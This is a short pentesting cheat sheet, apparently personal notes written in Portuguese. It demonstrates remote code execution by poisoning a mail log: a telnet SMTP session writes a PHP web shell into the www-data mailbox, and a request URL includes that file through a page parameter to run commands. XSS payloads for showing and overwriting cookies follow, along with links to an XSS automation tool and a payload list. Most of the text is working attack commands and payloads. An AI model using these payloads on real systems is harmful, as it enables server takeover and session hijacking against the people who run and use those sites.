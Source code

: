 diretorios de email smtp
```
/var/mail/USER
/var/spool/mail/USER
/var/mail/www-data
/var/spool/mail/www-data
```

RCE via smtp
```
telnet 172.30.0.128 25
Trying 172.30.0.128...
Connected to 172.30.0.128.
Escape character is '^]'.
MAIL FROM:romio
RCPT220 ubuntu.bloi.com.br ESMTP Postfix (Ubuntu)
 250 2.1.0 Ok
RCPT TO:www-data@ubuntu.local   
502 5.5.2 Error: command not recognized
MAIL FROM:romio
503 5.5.1 Error: nested MAIL command
RCPT TO:www-data@ubuntu.local
250 2.1.5 Ok
data 
354 End data with <CR><LF>.<CR><LF>
<?php echo system($_GET['hack']);?>
.
250 2.0.0 Ok: queued as 23781C007F


# requisição
http://172.30.0.128/supportdesk/index.php?page=/var/mail/www-data&hack=whoami

```


## XSS
ferramenta para automatizar teste de XSS
```
https://github.com/s0md3v/XSStrike.git
```

### reflected
```
<script>alert("VULNERAVEL")<script>
```
payloads: https://github.com/payloadbox/xss-payload-list


### self
exibe o proprio cookie
```
<script>alert(document.cookie)</script>
```
redefine o proprio cookie
```
<script>alert(document.cookie="PHPSESSID=3u23181nqsq4q02u1n42pk9vq7")</script>
```
